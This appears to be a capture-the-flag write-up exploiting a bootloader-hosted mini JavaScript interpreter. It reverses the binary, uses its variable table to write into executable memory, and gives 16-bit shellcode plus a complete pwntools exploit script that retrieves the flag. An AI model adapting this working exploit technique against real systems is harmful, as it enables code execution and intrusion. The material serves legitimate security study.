# 0x0 Introduction

Description: TDB

Files: TBD


# 0x1 Playing around with their JS engine

Challenge runs under a i386 environment using a simulator (qemu)

```
./qemu-system-i386 -L /bios -display none -drive format=raw,file="./bootjs.bin" -serial stdio
```

qemu simulator will load boot section in bootjs.bin and spawn a javascript console(?).

In this javascript console, I was able to executing some basic command such as simple math operation, print(function calling), and variable assignment.



However, I found certain limitation when playing with this simulator

1. variable name can only be an one byte character, (eg `a`,`b`)
2. math operation only support number from 0-9 (also single byte)

OK, then where is the flag. Lets take look at bootjs.bin

# 0x2 Preparation

Before starting reversing, I first did some research about i386 boot loader. (see reference section)

boot loader is loaded after bios. and bios will load first sector of  boot loader (**512 bytes**) to a fixed address in memory (0x7c00). 



Boot loader is usually written in 16-bit assembly. executing in cpu real mode. 

The main task for boot loader is to load kernel into memory. Then, kernel will deal with everything else after that. (Which is not the case for this challenge, the boot loader for this challenge is a js engine)

# 0x3 Reversing & Analyzing

After loaded `bootjs.bin` in Binary Ninja. I found the placeholder flag instantaneously. flag bytes start at `0x7e00` after a MBR boot signature `55AA`. 

Above flag bytes, there is a huge chunk of suspicious `A`s. 



We know that bios only load first sector of boot loader into memory, flag bytes was clearly not in the memory (0x7e00-0x7c00 = 0x200 = 512).

(Therefore, at some point, I have to executing some shellcode so that I could load flag bytes into the memory.)

After took some time analyzing the binary file, I came up with those  functions




`print_byte`: print one byte as ascii to screen.

`print_crlf`: print CRLF to screen `\r\n` 

`print_hex`: print 4 bit as hex.



`read_input`: read one byte from user input and print it back to screen



`math_op`: perform math operation recursively



`input_to_num`: ask one byte from user input. 

If user input is a number then return the number itself (`sub al, 0x30`). 

Otherwise, it is a variable. So, it will get the value of that variable using `var_to_num`(actually set si to the data offset) and return the value.



`entry`: main loop

if second byte is `=`, it will perform variable assignment `mov word ptr [si], bx`. 

If second byte is a `(`, it will regard first byte as a fucntion name. and call this function. `call word ptr [si]`



`log_print`: print two bytes as hex



**Finally**, the vulnerable funtion `var_to_num`

This function uses the suspicious chunk start from `0x7cda` as a **variable table**

This **variable table** store all existing variable name and value (or function name and address). Each variable entry (or function entry) occupy 3 bytes (1 byte name, 2 byte data).

For example, the binary came with a built in function `l` (which print value in a variable as hex). 

So, in the variable table, `6c7a7c` represents this entry. Where `6c` is the function name `l`, `7a7c` is the function address of `log_print` in little endian (`0x7c7a`) 



Also, register `cx` hold how many variables/functions are in the variable table.

Here is the pesudo code for `var_to_num`
```
func var_to_num(var_name):
    si = variable_table = 0x7cda
    idx = 0
    while idx < cx:
        if var_name is the first byte in variable table:
            si = si +1 // move si to data section
            return
        si = si +3 // move to next entry
        idx ++
    // if variable name not found in variable table
    cx = cx + 1 // increase variable count
    si[0] = var_name // set first byte to variable name
    si = si + 1 // move si to data section
    return 
```

Here we go, I got a limited arbitrary write in an executable region!

limitation: first bytes of every three bytes in shellcodes must be different

Now I can write shellcode in this region and run the shellcode by calling a custom function.


# 0x4 crafting shellcode

Our shellcode need to do two thing: load second sector from drive into the memory; and print out the flag

## print out flag:

1. setting up register
2. using `lodsb` to load one byte to `al` and move `si` to next byte
3. print out `al` using `out dx,al`
4. jump to step 2 again using `jmp`

```asm
    mov dx, 0x3f8              ; serial out
    mov si, bx                 ; source buffer (start of flag)
loop:
    lodsb                      ; load byte from si into al, advance si
    out dx, al                 ; send al to serial out
    jmp loop                   ; repeat
    nop
```

## load second sector into memory

This part is bit tricky, but I found a very good post about how to load second sector <http://3zanders.co.uk/2017/10/18/writing-a-bootloader3/>. 

So I just copy paste their assembly code and did some modification.

something to be noted

`int 0x13` uses cylinder-head-sector (CHS) addressing. In CHS addressing, sector index start with **1** instead of **0** due to some historical reason.

```asm
    mov ah, 0x2                ; read sectors from drive
    nop
    mov al, 1                  ; sectors to read
    nop
    mov ch, 0                  ; cylinder idx
    nop
    mov dh, 0                  ; head idx
    nop
    mov cl, 2                  ; sector idx
    nop
    mov dl, 0x80               ; disk idx
    nop
    mov bx, 0x7e00             ; target pointer
    int 0x13                   ; interrupt
```


## final shellcode

```asm
[bits 16]

start:
    mov ah, 0x2                ; read sectors from drive
    nop
    mov al, 1                  ; sectors to read
    nop
    mov ch, 0                  ; cylinder idx
    nop
    mov dh, 0                  ; head idx
    nop
    mov cl, 2                  ; sector idx
    nop
    mov dl, 0x80               ; disk idx
    nop
    mov bx, 0x7e00             ; target pointer
    int 0x13                   ; interrupt
    mov dx, 0x3f8              ; serial out
    mov si, bx                 ; source buffer (start of flag)
loop:
    lodsb                      ; load byte from si into al, advance si
    out dx, al                 ; send al to serial out
    jmp loop                   ; repeat
    nop                        ; padding
```

> credit to my teammate @jason

compile it with

`nasm shellcode.asm -o shellcode.o`

yep! all the first bytes are different!!!!!




# 0x5 Script Steps

1. write function which point to shell code
2. write shellcode
3. call shellcode
4. retrieve flag


# 0x6 Exploit

```python
from pwn import *

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print

def start():
    if args.LOCAL:
        r = process(["qemu-system-i386", 
            "-L","./bios",
            "-display","none",
            "-drive","format=raw,file=bootjs.bin",
            "-serial","stdio"])
    else:
        r = remote("54.93.211.13", 10000)
    return r

io = start()

if not args.LOCAL:
    hash_challenge = io.recvline().split()
    lp("proof of work:", hash_challenge)
    if hash_challenge[0] == b'hashcash' and hash_challenge[1] == b'-mb28':
        response = subprocess.run([
            'hashcash',
            '-mb28',
            hash_challenge[2].decode(),
        ], capture_output=True).stdout
        io.send(response)

def send_js(value):
    io.sendafter(b"> ",value)
def recv_rs(is_log):
    io.recvuntil(b"\r\n",drop=True)
    data = ''
    if is_log:
        data = io.recvuntil(b"\n",drop=True)
    return data


shellcode = bytes.fromhex("b40290b00190b50090b60090b10290b28090bb007ecd13baf80389deaceeebfc90")

def write_to_mem(val,value):
    # dec_value = int.from_bytes(value,"little")
    payload = val+b'='+(str(value % 9)+"+9"*(value // 9)+"\n").encode()
    # lp(payload)
    send_js(payload)
    # lp(io.recvuntil(b"\r\n"))
    io.recvuntil(b"\r\n")
    

write_to_mem(b"a",0x7c7a)
write_to_mem(b'b',0x7ce3)
for i in range(0,len(shellcode),3):
    part =  shellcode[i:i+3]
    lp("sending",i,part[0].to_bytes(1,"little"),hex(int.from_bytes(part[1:],"little")))
    write_to_mem(part[0].to_bytes(1,"little"),int.from_bytes(part[1:],"little"))

send_js(b"b(0)")
lp(io.recvuntil(b"}"))
io.close()
```

# 0x7 flag

`kalmar{this_would_be_a_nice_addon_to_all_efi_shells_right?}`

# Reference

1. <https://infosecwriteups.com/writing-a-bootloader-931da062f25b>
2. <https://medium.com/swlh/an-introduction-to-i386-boot-loader-programming-823354b80846>
3. <http://3zanders.co.uk/2017/10/18/writing-a-bootloader3/>
4. <https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html>
5. <https://en.wikipedia.org/wiki/INT_13H#INT_13h_AH=02h:_Read_Sectors_From_Drive>